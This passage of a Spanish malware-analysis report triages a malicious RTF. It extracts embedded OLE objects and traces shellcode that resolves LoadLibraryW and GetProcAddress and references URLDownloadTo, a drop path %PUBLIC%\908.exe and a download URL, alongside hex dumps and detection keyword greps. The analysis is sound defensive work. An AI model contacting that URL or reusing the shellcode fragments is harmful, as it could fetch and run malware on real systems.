Establecemos una variable que almacena la ruta de Didier Stevens Suite y recoremos los ficheros para realizar un análisis con oledump.py:
```
└─$ DIDIER="$HOME/tools/didier-stevens"


└─$ for f in datastore_169_puro.ole datastore_332_puro.ole F_1.ole F_2.ole F_3.ole F_4.ole; do
    echo "===== $f ====="
    python "$DIDIER/oledump.py" "$f"
    python "$DIDIER/oledump.py" --storages "$f"
    echo
done
```

**Obtenemos:**
```
===== datastore_169_puro.ole =====
  1: R         'Root Entry'

===== datastore_332_puro.ole =====
  1: R         'Root Entry'

===== F_1.ole =====
  1: R         'Root Entry'

===== F_2.ole =====
  1: R         'Root Entry'

===== F_3.ole =====
  1: R         'Root Entry'

===== F_4.ole =====
  1: R         'Root Entry'
```
donde:
- El fichero tiene estructura OLE/CFBF válida.
- oledump.py reconoce la raíz del contenedor OLE.
- No aparecen streams adicionales como Contents, Ole, CompObj, Package, Equation Native, macros, payloads o datos extraíbles.
- Por tanto, <mark>estos OLE no parecen contener un payload PE ni un stream útil directamente accesible.</mark>
- Root Entry es la raíz obligatoria de un contenedor OLE. Que solo aparezca eso suele indicar un OLE vacío, mínimo, incompleto o construido para cumplir estructura.


## **5.3 Búsqueda de PE embebidos con pecheck.py**
```
for f in datastore_169_puro.ole datastore_332_puro.ole F_1.ole F_2.ole F_3.ole F_4.ole; do
    echo "===== $f ====="
    python "$DIDIER/pecheck.py" -l P "$f"
    echo
done
```

Obtenemos:
```
===== datastore_169_puro.ole =====

===== datastore_332_puro.ole =====

===== F_1.ole =====

===== F_2.ole =====

===== F_3.ole =====

===== F_4.ole =====
```
donde:
- Todos los objetos indica que pecheck.py no ha encontrado ejecutables PE embebidos dentro de esos ficheros.
- Es decir, no se han localizado cabeceras PE válidas tipo: `MZ .... PE`.


**Resumiendo:** Los OLE existen y son válidos a nivel de cabecera, pero <mark>no contienen streams ni PE embebidos detectables.</mark>


## **5.4 Búsqueda genérica de cadenas en los objetos extraídos**
Tras extraer los objetos del documento RTF, se realiza una búsqueda de cadenas sobre todos los artefactos obtenidos. El objetivo de esta fase no es buscar IOCs conocidos previamente, sino identificar de forma genérica cadenas que puedan indicar funcionalidad maliciosa: nombres de DLLs, APIs de Windows, rutas, URLs, funciones de descarga o referencias a ejecución.

Para ello se recorren todos los ficheros extraídos y se buscan cadenas tanto en ASCII como en UTF-16LE:
```bash
for f in *; do
  if [ -f "$f" ]; then
    echo
    echo "===== $f ====="
    echo "[ASCII]"
    strings -a -t x -n 4 "$f" | grep -Ei "http|https|www\.|\.exe|\.dll|\.vbs|\.js|cmd|powershell|shell|download|url|kernel|loadlibrary|getprocaddress|createprocess|winexec|shellexecute|appdata|temp|public|programdata" || true
    echo "[UTF-16LE]"
    strings -a -el -t x -n 4 "$f" | grep -Ei "http|https|www\.|\.exe|\.dll|\.vbs|\.js|cmd|powershell|shell|download|url|kernel|loadlibrary|getprocaddress|createprocess|winexec|shellexecute|appdata|temp|public|programdata" || true
  fi
done
```


Donde Obtenemos:
```
===== bin_350.bin =====
[ASCII]
[UTF-16LE]

===== bin_350_decoded.bin =====
[ASCII]
   134e URLDownloadToA6h?
[UTF-16LE]
   1339 UrlMon

===== datastore_169_puro.ole =====
[ASCII]
[UTF-16LE]

===== datastore_169_raw.bin =====
[ASCII]
[UTF-16LE]

===== datastore_332_puro.ole =====
[ASCII]
[UTF-16LE]

===== datastore_332_raw.bin =====
[ASCII]
[UTF-16LE]

===== F_1.ole =====
[ASCII]
   616e URLDownloadToA6h?
[UTF-16LE]
   6159 UrlMon

===== F_2.ole =====
[ASCII]
   3916 LoadLibraryW
   3930 GetProcAddress
[UTF-16LE]
   38f8 kernel32

===== F_3.ole =====
[ASCII]
[UTF-16LE]

===== F_4.ole =====
[ASCII]
[UTF-16LE]

===== F_5.ole =====
[ASCII]
[UTF-16LE]

===== objdata_356_decoded.bin =====
[ASCII]
    37b URLDownloadToA6h?
[UTF-16LE]
    366 UrlMon

===== unknowntype_334.bin =====
[ASCII]
[UTF-16LE]

===== unknowntype_340.bin =====
[ASCII]
[UTF-16LE]
```
La diferencia entre `objdata_356.bin` y `objdata_356_decoded.bin` es importante: el primero corresponde a una extracción directa del contenido, mientras que el segundo se obtiene tras aplicar decodificación hexadecimal con `rtfdump.py -H`. Por eso algunas cadenas pueden no ser visibles en el primero, pero sí aparecer parcial o totalmente en artefactos derivados o relacionados.
                                                                                                                                            


La búsqueda genérica de cadenas sobre los objetos extraídos permite identificar varios indicadores parciales sin partir todavía de IOCs conocidos. En `F_2.ole` aparecen `kernel32`, `LoadLibraryW` y `GetProcAddress`, lo que apunta a una posible rutina de resolución dinámica de APIs. Por otro lado, en `F_1.ole`, `bin_350_decoded.bin` y `objdata_356_decoded.bin` aparecen `UrlMon` y la cadena parcial `URLDownloadToA6h?`, compatible con funcionalidad de descarga mediante `urlmon.dll`.

Estos hallazgos indican que los indicadores relevantes no están concentrados en un único artefacto. Parte de la lógica relacionada con resolución dinámica de APIs aparece en F_2.ole, mientras que las referencias a UrlMon y a funcionalidad de descarga aparecen en otros blobs relacionados.

A partir de estos hallazgos iniciales se realizan búsquedas dirigidas sobre el RTF original. El objetivo es localizar en el RTF original la representación exacta de las cadenas observadas en los objetos extraídos, para determinar en qué offset aparecen, cómo están codificadas y a qué estructura del documento pertenecen.


También se comprueba que no todos los artefactos muestran las cadenas relevantes de la misma forma. Por ejemplo, al buscar directamente sobre `objdata_356.bin` con `strings` en ASCII y UTF-16LE no se obtienen resultados relevantes:

```bash
strings -a -n 5 objdata_356.bin | grep -Ei "LoadLibrary|GetProcAddress|URLDownload|UrlMon"
strings -a -el -n 5 objdata_356.bin | grep -Ei "LoadLibrary|GetProcAddress|URLDownload|UrlMon"      
```

Esto no demuestra que esas cadenas no existan dentro del contenido original, sino únicamente que no son visibles en ese artefacto mediante una extracción simple de cadenas ASCII o UTF-16LE. El contenido puede estar codificado como hexadecimal textual, formar parte de otro objeto extraído, estar desplazado por cabeceras/padding o aparecer en una versión ya decodificada del mismo bloque.


Por este motivo, el análisis no se limita a un único fichero extraído. Se comparan todos los artefactos obtenidos y se correlacionan los resultados con el RTF original.


Al buscar en el RTF original la representación hexadecimal textual de cadenas observadas previamente en los objetos extraídos, sí se obtienen coincidencias:
```
└─$ grep -aob "446f776e6c6f6164" "$malwareRTF"                  # Download
1035674:446f776e6c6f6164


└─$ grep -aob "550072006c004d006f006e00" "$malwareRTF"          # UrlMon UTF-16LE
1035626:550072006c004d006f006e00


└─$ grep -aob "4c6f61644c69627261727957" "$malwareRTF"          # LoadLibraryW
1035342:4c6f61644c69627261727957


└─$ grep -aob "47657450726f6341646472657373" "$malwareRTF"      # GetProcAddress
1035394:47657450726f6341646472657373
```

Esta correlación permite ubicar dentro del RTF original varias cadenas que previamente habían aparecido en los objetos extraídos. Por tanto, la búsqueda manual no se usa como descubrimiento inicial de IOCs, sino como validación de cómo y dónde están representadas esas cadenas dentro del contenido embebido del documento


En esta fase, los resultados permiten formular una hipótesis técnica: **<mark>el RTF contiene blobs u objetos con código compatible con shellcode, referencias a resolución dinámica de APIs mediante LoadLibraryW y GetProcAddress, y referencias a funcionalidad de descarga mediante UrlMon y una cadena parcial compatible con URLDownloadTo.</mark>**


---

## **5.5 Revisión de artefactos secundarios: F_3.ole, F_4.ole y F_5.ole**
Para completar el análisis estático se revisaron también los objetos `F_3.ole`, `F_4.ole` y `F_5.ole`.

**`F_3.ole` y `F_4.ole` son identificados por `file` como documentos OLE/CFBF:**

```text
F_3.ole: Composite Document File V2 Document, Cannot read section info
F_4.ole: Composite Document File V2 Document, Cannot read section info
```
Ambos presentan la cabecera OLE válida:
```
D0 CF 11 E0 A1 B1 1A E1
```


**F_5.ole no es reconocido como OLE válido:**
```
F_5.ole: data
```
Aunque comienza con una secuencia parecida a la firma OLE, la cabecera no coincide exactamente con la firma esperada. En lugar de:
```
D0 CF 11 E0 A1 B1 1A E1
```
presenta:
```
D0 CF 11 E0 A1 B1 1A E0
```

Además, `oledump.py` confirma que no es un documento OLE estructurado válido:
```
NotOleFileError: not an OLE2 structured storage file
```

<mark>En ninguno de ellos se identifican cadenas relevantes mediante strings en ASCII ni UTF-16LE. Tampoco se detectan estructuras adicionales mediante `binwalk`.</mark>


## **5.6 Correlación de cadenas y localización de la zona relevante en el RTF original**

En el apartado anterior se identificaron cadenas relevantes en varios objetos extraídos del RTF. En concreto, `F_2.ole` contiene referencias a `kernel32`, `LoadLibraryW` y `GetProcAddress`, mientras que `F_1.ole`, `bin_350_decoded.bin` y `objdata_356_decoded.bin` contienen referencias a `UrlMon` y a la cadena parcial `URLDownloadToA6h?`.

Estos hallazgos sugieren que **los indicadores no están concentrados en un único artefacto, sino repartidos entre distintos objetos o blobs** extraídos del documento. Por este motivo, el siguiente paso consiste en correlacionar esas cadenas con el RTF original.

El objetivo de esta fase no es descubrir nuevos IOCs, sino **ubicar dentro del documento original las cadenas ya observadas en los objetos extraídos**. Para ello se buscan sus representaciones hexadecimales dentro del RTF, ya que en este tipo de documentos los objetos embebidos suelen almacenarse como hexadecimal textual.


### A) Búsqueda de representaciones hexadecimales en el RTF
A partir de las cadenas localizadas en los objetos extraídos, se generan sus representaciones hexadecimales y se buscan dentro del RTF original mediante `grep -aob`. La opción `-a` fuerza el tratamiento del fichero como texto, `-o` muestra solo la coincidencia encontrada y `-b` imprime el offset en bytes dentro del fichero.

Primero se buscan cadenas asociadas a resolución dinámica de APIs:

```bash
grep -aob "6b00650072006e0065006c0033003200" "$malwareRTF"      # kernel32 UTF-16LE
grep -aob "4c6f61644c69627261727957" "$malwareRTF"              # LoadLibraryW
grep -aob "47657450726f6341646472657373" "$malwareRTF"          # GetProcAddress
```

Resultados obtenidos:
```
1035282:6b00650072006e0065006c0033003200
1035342:4c6f61644c69627261727957
1035394:47657450726f6341646472657373
```

Estos offsets confirman que las cadenas observadas en F_2.ole también están presentes dentro del RTF original como datos codificados en hexadecimal textual.

A continuación se buscan cadenas relacionadas con funcionalidad de descarga mediante urlmon.dll:
```
grep -aob "550072006c004d006f006e00" "$malwareRTF"              # UrlMon UTF-16LE
grep -aob "55524c44" "$malwareRTF"                              # URLD
grep -aob "446f776e6c6f6164" "$malwareRTF"                      # Download
```

Resultados obtenidos:
```
1035626:550072006c004d006f006e00
1035668:55524c44
1035674:446f776e6c6f6164
```

La presencia de UrlMon junto con fragmentos como URLD y Download refuerza la hipótesis de que esta zona del documento contiene referencias a funciones de descarga. En esta fase aún no se afirma la llamada completa a URLDownloadToFileW. Unicamente se constata que existen fragmentos compatibles con funcionalidad de descarga mediante urlmon.dll.

También se buscan cadenas asociadas a rutas de escritura o módulos que podrían estar relacionados con una fase posterior del payload:

```
grep -aob "25005000550042004c004900430025005c003900300038002e006500780065" "$malwareRTF"    # %PUBLIC%\908.exe UTF-16LE
grep -aob "6d0073007600620076006d0036003000" "$malwareRTF"                                  # msvbvm60 UTF-16LE
```

Resultados obtenidos:
```
1035540:25005000550042004c004900430025005c003900300038002e006500780065
1035994:6d0073007600620076006d0036003000
```

Para confirmar el significado de una de estas cadenas, se decodifica el valor hexadecimal correspondiente a la ruta de escritura:
```
echo "25005000550042004c004900430025005c003900300038002e006500780065" | xxd -r -p | iconv -f UTF-16LE -t UTF-8
```

También se decodifica la cadena asociada a UrlMon:
```
echo "550072006c004d006f006e00" | xxd -r -p | iconv -f UTF-16LE -t UTF-8
```

Resultado obtenido:
```
UrlMon
```

Esta correlación permite **<mark>ubicar dentro del RTF original una zona de interés situada aproximadamente entre los offsets 1035282 y 1035994. En esa zona aparecen cadenas previamente observadas en los objetos extraídos, incluyendo referencias a resolución dinámica de APIs, carga de UrlMon, fragmentos relacionados con descarga y la ruta %PUBLIC%\908.exe.</mark>**

Por tanto, la búsqueda manual no se utiliza como técnica de descubrimiento inicial, sino como técnica de validación y correlación. Primero se localizaron cadenas sospechosas en los objetos extraídos, después se comprobó que esas cadenas proceden de una región concreta del RTF original almacenada como hexadecimal textual.


### B) Relación con el índice \objdata 356
Una vez localizadas varias cadenas relevantes dentro del RTF original, el siguiente paso consiste en comprobar si esos offsets pertenecen a alguna de las estructuras identificadas previamente con `rtfdump.py`.

En el análisis estructural del RTF, `rtfdump.py` identificó el objeto `\objdata` en el índice 356:
```text
356 ... \objdata
``` 

En la salida de rtfdump.py, este objeto aparece con el offset:
```
p=000fc3de
```

Este valor está expresado en hexadecimal. Para convertirlo a decimal:
```
p=1033182
```


Por tanto, el objeto \objdata comienza aproximadamente en el offset decimal: `1033182`.

Durante la búsqueda de cadenas codificadas en hexadecimal textual dentro del RTF original, se localizaron varios indicadores en offsets posteriores:
```
kernel32              -> 1035282
LoadLibraryW          -> 1035342
GetProcAddress        -> 1035394
%PUBLIC%\908.exe      -> 1035540
UrlMon                -> 1035626
Download              -> 1035674
msvbvm60              -> 1035994
```

Todos estos offsets son superiores al inicio del objeto \objdata:
```
Inicio de \objdata: 1033182
Zona de cadenas:    1035282 - 1035994
```

La diferencia entre el inicio de \objdata y la primera cadena relevante localizada es:
```
1035282 - 1033182 = 2100 bytes
```

Esto indica que las cadenas no aparecen fuera de contexto ni en una zona arbitraria del documento, sino dentro del rango correspondiente al objeto \objdata.


La relación puede resumirse así:
```
RTF original
└── índice 350: \bin000000
    └── índice 356: \objdata
        └── zona relevante alrededor de offsets 1035282 - 1035994
            ├── kernel32
            ├── LoadLibraryW
            ├── GetProcAddress
            ├── %PUBLIC%\908.exe
            ├── UrlMon
            ├── Download
            └── msvbvm60
```

Esta correlación confirma que los indicadores identificados mediante búsquedas hexadecimales pertenecen a la zona del objeto embebido \objdata. Por tanto, el análisis deja de basarse únicamente en cadenas aisladas y pasa a relacionarlas con una estructura concreta del RTF.

En conclusión, el objeto \objdata del índice 356 contiene la zona donde se concentran las cadenas relacionadas con resolución dinámica de APIs, carga de UrlMon, posible funcionalidad de descarga y ruta de escritura del payload. Esto justifica que los siguientes pasos del análisis se centren en extraer y analizar los objetos derivados de esta región.


## **5.7 Conclusiones del triage**
[los objetos contienen indicios repartidos; se prioriza el análisis de F_2.ole y del RAW extraído]


# **6. Correlación entre artefactos**

6. Correlación entre artefactos extraídos
6.1 Extracción de objdata decodificado
6.2 Análisis inicial de objdata_356_decoded.bin
6.3 Búsqueda de indicadores en el resto de artefactos
6.4 Resultados destacados
6.5 Conclusión: indicadores repartidos entre varios blobs


------------------------------------------
**<mark>A) Las cadenas de red y drop no aparecen directamente en claro al aplicar `strings` o `grep` sobre el RTF. Sin embargo, se localizan codificadas como hexadecimal `UTF-16LE` dentro del documento. En concreto, se identifica la cadena `http://bit.ly/34vzFlU` en el offset `1035742` y la ruta `%PUBLIC%\908.exe` en el offset `1035540`. Esto sugiere que la muestra contiene lógica de descarga o referencia a un payload externo, aunque las cadenas se encuentran ofuscadas/codificadas dentro del RTF.</mark>**

<br>

**Si queremos extraer contexto alrededor de esa zona:**
```
└─$ dd if="$malwareRTF" bs=1 skip=1035400 count=600 status=none > zona_ioc_hex.txt   
```
<br>


**<mark>Los offsets `1034025–1035696` caen dentro del grupo `\objdata` del índice `356`.</mark>**

<br>

**La relación queda así:**
```
RTF completo
└── índice 350: \bin000000
    └── índice 356: \objdata
        └── zona interesante: offsets 1034025–1035696
            ├── %PUBLIC%\908.exe
            └── http://bit.ly/34vzFlU
```

<br>

**`rtfdump.py` muestra que el índice 356 corresponde a `\objdata`, empieza en `p=000fc3de` y tiene longitud `l=11814`. Ese offset hexadecimal `000fc3de` equivale aproximadamente a `1033182` en decimal.**

<br>

**El script `ioc_report.json` localiza `\objdata` en el `offset 1033183`, prácticamente el mismo punto, y después localiza la zona de IOCs en torno a `1034025–1035696`.**


Por tanto:
```
Inicio de \objdata 356:   ~1033182
IOC %PUBLIC%\908.exe:      1035540
IOC http://bit.ly/34vzFlU: 1035742
```


------------------------------


Aunque los objetos OLE extraídos no contienen streams útiles ni PE embebidos, el análisis de IOCs sobre el RTF completo **localiza una zona relevante dentro del grupo `\objdata` del índice `356`**. Este grupo comienza aproximadamente en el offset `1033182` y tiene una longitud de `11814` bytes. Dentro de ese rango se identifican cadenas codificadas como hexadecimal UTF-16LE, incluyendo la ruta `%PUBLIC%\908.exe` y la URL `http://bit.ly/34vzFlU`. Por tanto, el foco de análisis pasa de los OLE vacíos al contenido codificado dentro de `\objdata`.


<mark>Ya no estamos “buscando a ciegas”, ahora hay que reconstruir la zona `\objdata` donde aparecen la URL, la ruta `%PUBLIC%` y las APIs de descarga. El objetivo del siguiente paso es convertir ese `blob hex/RTF` en bytes analizables y separar si contiene shellcode, downloader o exploit data.</mark>


------------------------------


# **7. Desentrañamos el contenido real del \objdata índice 356**
**Pensamos que:**
```
RTF malicioso
└── \bin000000 índice 350
    └── \objdata índice 356
        └── blob codificado/ofuscado
            ├── APIs: LoadLibraryW / GetProcAddress / URLDownloadToFileW
            ├── ruta: %PUBLIC%\908.exe
            └── URL: http://bit.ly/34vzFlU
```

Sabemos que `rtfdump.py` ubica el bloque `\bin000000` en el índice `350` y el `\objdata` en el índice `356`, con `offset p=000fc3d`e y `longitud 11814`, así que el contenido interesante que encontraste alrededor de `1035xxx` cae dentro de ese objeto.

## **7.1 Extraemos `objdata` ya decodificado**
**Primero extraemos de nuevo el índice 356, pero usando -H para que rtfdump.py decodifique hexadecimal:**
```
└─$ python rtfdump.py -s 356 -H -d "$malwareRTF" > objdata_356_decoded.bin
```

## **7.2 Extraemos y confirmamos IOCs del objdata_356_decoded.bin**

```
└─$ file objdata_356_decoded.bin
objdata_356_decoded.bin: data
                                                                                                                                                      
└─$ xxd -l 256 objdata_356_decoded.bin
00000000: 8888 8888 8888 8888 8888 8888 8888 8888  ................
00000010: 8888 8888 8888 8888 8888 8888 8888 8888  ................
00000020: 8888 8888 8888 8888 8888 8888 8888 8888  ................
00000030: 8888 8888 8888 8888 8888 8888 8888 888d  ................
00000040: 0200 d150 2000 0000 b000 0006 5517 5141  ...P .......U.QA
00000050: 7468 7486 2395 6311 1287 4862 3956 3111  tht.#.c...Hb9V1.
00000060: 2874 8623 9563 1112 94f4 e2e3 3000 0000  (t.#.c......0...
00000070: 0000 0000 0001 a050 0000 2c45 7c1e 35d0  .......P..,E|.5.
00000080: 1088 2bfb 9c34 2baf ff7d 18b1 98b2 bba9  ..+..4+..}......
00000090: 90d6 6db8 1c21 75ae 0248 b0a5 5ffd 183c  ..m..!u..H.._..<
000000a0: 05df fe0c 8a50 4e22 90a7 a0d2 b52c f5d0  .....PN".....,..
000000b0: cc24 000e d022 2296 7c90 20a4 219f 90be  .$..."".|. .!...
000000c0: 1f87 93bd 519a 209c acaf 5689 8097 a7ba  ....Q. ...V.....
000000d0: 61e4 a255 7029 deb1 25b8 1c30 c020 0008  a..Up)..%..0. ..
000000e0: d839 8020 0006 bed0 0eb0 8e8e 9fff fff9  .9. ............
000000f0: 0ebe 66be d008 3c50 0312 b83c 3049 c515  ..f...<P...<0I..
                                                                                                                                                      
└─$ binwalk objdata_356_decoded.bin

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------


└─$ strings -a -n 4 objdata_356_decoded.bin
QAtht
Hb9V1
C\KQR
3$HG
%yT!Fl
hO!0
;Yj!
Y2\]
w'Cm
`|N4
<,B	
M{BS
Rf+(O_
FG&W70
URLDownloadToA6h?
(<  
5%ex
                                                                                                                                                      
└─$ strings -a -n 4 objdata_356_decoded.bin | grep -Ei "kernel32|LoadLibrary|GetProcAddress|UrlMon|URLDownload|bit\.ly|PUBLIC|oleaut32|msvbvm60|rtcShell|ExitProcess"
URLDownloadToA6h?
``` 

Sólo obtenemos El string `URLDownloadToA6h?` que es una cadena parcial, no la API completa. Lo más probable es que <mark>los IOCs salieron de otro artefacto, no de este `objdata_356_decoded.bin`.</mark>


## **6.3 Buscaremos si los IOCs están en otro fichero de la carpeta**
```
for f in *; do
  if [ -f "$f" ]; then
    echo
    echo "===== $f ====="

    echo "[ASCII]"
    strings -a -t x -n 4 "$f" | grep -Ei "kernel32|LoadLibrary|GetProcAddress|ExpandEnvironmentStrings|PUBLIC|UrlMon|URLDownload|bit\.ly|oleaut32|SysAllocString|msvbvm60|rtcShell|ExitProcess" || true

    echo "[UTF-16LE]"
    strings -a -el -t x -n 4 "$f" | grep -Ei "kernel32|LoadLibrary|GetProcAddress|ExpandEnvironmentStrings|PUBLIC|UrlMon|URLDownload|bit\.ly|oleaut32|SysAllocString|msvbvm60|rtcShell|ExitProcess" || true
  fi
done
```

**Donde obtenemos:**
```
===== bin_350.bin =====
[ASCII]
[UTF-16LE]

===== bin_350_decoded.bin =====
[ASCII]
   134e URLDownloadToA6h?
[UTF-16LE]
   1339 UrlMon

===== datastore_169_puro.ole =====
[ASCII]
[UTF-16LE]

===== datastore_169_raw.bin =====
[ASCII]
[UTF-16LE]

===== datastore_332_puro.ole =====
[ASCII]
[UTF-16LE]

===== datastore_332_raw.bin =====
[ASCII]
[UTF-16LE]

===== F_1.ole =====
[ASCII]
   616e URLDownloadToA6h?
[UTF-16LE]
   6159 UrlMon

===== F_2.ole =====
[ASCII]
   3916 LoadLibraryW
   3930 GetProcAddress
[UTF-16LE]
   38f8 kernel32

===== F_3.ole =====
[ASCII]
[UTF-16LE]

===== F_4.ole =====
[ASCII]
[UTF-16LE]

===== F_5.ole =====
[ASCII]
[UTF-16LE]

===== objdata_356_decoded.bin =====
[ASCII]
    37b URLDownloadToA6h?
[UTF-16LE]
    366 UrlMon

===== unknowntype_334.bin =====
[ASCII]
[UTF-16LE]

===== unknowntype_340.bin =====
[ASCII]
[UTF-16LE]
```

**<mark>No encontrábamos `kernel32`, `LoadLibraryW` o `GetProcAddress` en `objdata_356_decoded.bin` porque esas cadenas NO están en ese fichero. Están en otro objeto extraído del `RTF`, concretamente en `F_2.ole`. Las cadenas relevantes se encuentran en otros objetos OLE extraídos del documento. Por tanto, el análisis debe realizarse sobre todos los streams/objetos extraídos y no sobre un único `objdata`.</mark>**

**<mark>El análisis de cadenas sobre los objetos extraídos del `RTF` muestra que los indicadores no se concentran en un único blob. El fichero `objdata_356_decoded.bin` únicamente contiene una referencia `Unicode` a UrlMon y una cadena ASCII parcial compatible con `URLDownloadTo`. Sin embargo, el objeto `F_2.ole` contiene referencias a `kernel32`, `LoadLibraryW` y `GetProcAddress`, lo que indica resolución dinámica de APIs.</mark>**


## **6.4 Resultados destacados**
Tras buscar los IOCs en todos los ficheros extraídos, se observa que las cadenas relevantes no se concentran en un único artefacto, sino que aparecen repartidas entre distintos objetos.

**A) objdata_356_decoded.bin Contiene:**
Este fichero contiene únicamente dos referencias relevantes:
```
0x366  UrlMon
0x37b  URLDownloadToA6h?
```

La cadena UrlMon aparece en formato `UTF-16LE`, mientras que `URLDownloadToA6h?` aparece como una cadena `ASCII` parcial o alterada. Esta última es compatible con una referencia a funciones de descarga de `urlmon.dll`, como `URLDownloadToFileA` o `URLDownloadToFileW`, aunque en este blob concreto no aparece la cadena completa en claro.

-----

**B) `bin_350_decoded.bin` Contiene exactamente el mismo tipo de hallazgo:**
Este fichero contiene el mismo tipo de hallazgo:
```
0x1339  UrlMon
0x134e  URLDownloadToA6h?
```
La coincidencia de estas cadenas sugiere que `bin_350_decoded.bin` y `objdata_356_decoded.bin` están relacionados. Probablemente representan zonas equivalentes del mismo contenido, aunque con distinto desplazamiento por cabeceras, padding o datos previos.

-----

**C) `F_1.ole` Contiene:**
En `F_1.ole` también aparece la misma zona de interés:
```
0x6159  UrlMon
0x616e  URLDownloadToA6h?
```
Esto indica que `F_1.ole` contiene una región equivalente a la observada en `objdata_356_decoded.bin`, pero ubicada dentro de un contenedor más grande. El offset es mayor porque existen más datos antes de llegar a la misma zona de contenido.

------


**D) `F_2.ole` contiene:**
El `objeto F_2.ole` contiene cadenas distintas y especialmente relevantes:
```
0x38f8  kernel32       UTF-16LE
0x3916  LoadLibraryW   ASCII
0x3930  GetProcAddress ASCII
```

Este es un hallazgo importante, ya que **<mark>estas cadenas apuntan a una rutina de resolución dinámica de APIs.</mark>**
| Cadena           | Significado                      |
| ---------------- | -------------------------------- |
| `kernel32`       | Módulo base de Windows           |
| `LoadLibraryW`   | Carga dinámica de DLLs           |
| `GetProcAddress` | Resolución dinámica de funciones |

**<mark>La presencia conjunta de `kernel32`, `LoadLibraryW` y `GetProcAddress` indica que el payload no depende de una tabla de importaciones convencional. En su lugar, probablemente resuelve las funciones necesarias en tiempo de ejecución, cargando módulos y obteniendo direcciones de APIs de forma dinámica. Esto es habitual en shellcode y payloads embebidos en documentos maliciosos.</mark>**


------

# **7. Analizamos el contexto alrededor de los offsets relevantes**
```
└─$ xxd -g 1 -s 0x38d0 -l 0x100 F_2.ole
000038d0: 62 b2 84 f5 fe 12 e0 cc 1b 58 b5 ad 5b fe cf a0  b........X..[...
000038e0: 8d 25 54 ee f4 d2 f9 64 8d 2d 4b 96 44 81 ec 38  .%T....d.-K.D..8
000038f0: 02 00 00 e8 12 00 00 00 6b 00 65 00 72 00 6e 00  ........k.e.r.n.
00003900: 65 00 6c 00 33 00 32 00 00 00 e8 92 01 00 00 89  e.l.3.2.........
00003910: c3 e8 0d 00 00 00 4c 6f 61 64 4c 69 62 72 61 72  ......LoadLibrar
00003920: 79 57 00 53 e8 f1 01 00 00 89 c7 e8 0f 00 00 00  yW.S............
00003930: 47 65 74 50 72 6f 63 41 64 64 72 65 73 73 00 53  GetProcAddress.S
00003940: e8 d5 01 00 00 89 c6 e8 1a 00 00 00 45 78 70 61  ............Expa
00003950: 6e 64 45 6e 70 00 00 05 50 07 20 06 c0 04 d0 06  ndEnp...P. .....
00003960: f0 06 e0 00 00 0f fd 7e 81 30 00 00 05 55 24 c4  .......~.0...U$.
00003970: 46 f7 76 e6 c6 f6 16 45 46 f4 13 66 83 f8 5a 77  F.v....EF..f..Zw
00003980: 0d 66 83 f0 20 66 3b 02 74 02 eb 02 eb 04 31 c0  .f.. f;.t.....1.
00003990: eb 0e 83 c1 02 83 c2 02 0f b6 01 eb c2 83 c8 01  ................
000039a0: 5a c2 08 00 53 52 56 57 8b 54 24 14 8b 42 3c 8d  Z...SRVW.T$..B<.
000039b0: 44 02 78 8b 00 01 d0 50 8b 48 18 8b 58 20 01 d3  D.x....P.H..X ..
000039c0: 30 c0 85 c9 74 3d 51 8b 0b 8d 0c 11 89 cf 57 8b  0...t=Q.......W.
                                                                                                                                                      

└─$ xxd -g 1 -s 0x6130 -l 0x100 F_1.ole
00006130: 00 04 76 57 45 07 26 f6 34 16 46 47 26 57 37 30  ..vWE.&.4.FG&W70
00006140: 05 3e 8d 50 10 00 08 9c 6e 81 a0 00 00 04 57 87  .>.P....n.....W.
00006150: 06 16 e6 44 56 e7 00 00 00 55 00 72 00 6c 00 4d  ...DV....U.r.l.M
00006160: 00 6f 00 6e 00 00 00 ff d7 e8 13 00 00 00 55 52  .o.n..........UR
00006170: 4c 44 6f 77 6e 6c 6f 61 64 54 6f 41 36 68 3f 85  LDownloadToA6h?.
00006180: a7 70 d6 68 3f 02 06 63 b0 27 40 2e b0 2e b0 43  .p.h?..c.'@....C
00006190: 1c 0e b0 e8 3c 10 28 3c 20 20 fb 60 1e bc 28 3c  ....<.(<  .`..(<
000061a0: 80 15 ac 20 80 05 35 25 65 78 b5 42 41 48 b4 23  ... ..5%ex.BAH.#
000061b0: c8 d4 40 27 88 b0 00 1d 05 08 b4 81 88 b5 82 00  ..@'............
000061c0: 1d 33 0c 08 5c 97 43 d5 18 b0 b8 d0 c1 18 9c f5  .3..\.C.........
000061d0: 78 b7 42 42 43 1c 94 9f 2a ef 7d 15 ff 3a 67 51  x.BBC...*.}..:gQ
000061e0: d5 95 82 b4 81 8f 7d 98 b5 82 40 1d 30 fb 71 c4  ......}...@.0.q.
000061f0: b8 b4 01 c8 d0 49 88 b0 41 00 1d 0e b0 c8 3c 30  .....I..A.....<0
00006200: 45 94 9e bb f3 1c 08 3c 40 45 f5 e5 a5 bc 20 80  E......<@E.... .
00006210: 00 46 6f a6 f0 00 00 00 01 22 25 97 85 48 02 55  .Fo......"%..H.U
00006220: 27 74 03 03 42 59 00 14 77 43 28 65 11 95 40 63  't..BY..wC(e..@c
                                                                                                                                                      

└─$ xxd -g 1 -s 0x340 -l 0x100 objdata_356_decoded.bin
00000340: 57 45 07 26 f6 34 16 46 47 26 57 37 30 05 3e 8d  WE.&.4.FG&W70.>.
00000350: 50 10 00 08 9c 6e 81 a0 00 00 04 57 87 06 16 e6  P....n.....W....
00000360: 44 56 e7 00 00 00 55 00 72 00 6c 00 4d 00 6f 00  DV....U.r.l.M.o.
00000370: 6e 00 00 00 ff d7 e8 13 00 00 00 55 52 4c 44 6f  n..........URLDo
00000380: 77 6e 6c 6f 61 64 54 6f 41 36 68 3f 85 a7 70 d6  wnloadToA6h?..p.
00000390: 68 3f 02 06 63 b0 27 40 2e b0 2e b0 43 1c 0e b0  h?..c.'@....C...
000003a0: e8 3c 10 28 3c 20 20 fb 60 1e bc 28 3c 80 15 ac  .<.(<  .`..(<...
000003b0: 20 80 05 35 25 65 78 b5 42 41 48 b4 23 c8 d4 40   ..5%ex.BAH.#..@
000003c0: 27 88 b0 00 1d 05 08 b4 81 88 b5 82 00 1d 33 0c  '.............3.
000003d0: 08 5c 97 43 d5 18 b0 b8 d0 c1 18 9c f5 78 b7 42  .\.C.........x.B
000003e0: 42 43 1c 94 9f 2a ef 7d 15 ff 3a 67 51 d5 95 82  BC...*.}..:gQ...
000003f0: b4 81 8f 7d 98 b5 82 40 1d 30 fb 71 c4 b8 b4 01  ...}...@.0.q....
00000400: c8 d0 49 88 b0 41 00 1d 0e b0 c8 3c 30 45 94 9e  ..I..A.....<0E..
